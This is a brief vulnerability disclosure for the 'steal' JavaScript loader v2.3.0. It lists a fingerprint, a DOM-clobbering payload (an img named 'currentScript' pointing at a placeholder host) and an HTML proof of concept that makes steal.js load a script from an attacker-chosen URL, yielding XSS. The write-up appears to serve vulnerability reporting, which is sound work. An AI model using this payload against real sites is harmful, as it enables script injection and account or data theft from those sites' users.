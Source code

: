 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None

### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!doctype html>
<html>
  <body>
    <image name="currentScript" src="http://localhost:8000/"></image>
    <script src="./node_modules/steal/steal.js" main></script>
  </body>
</html>
```
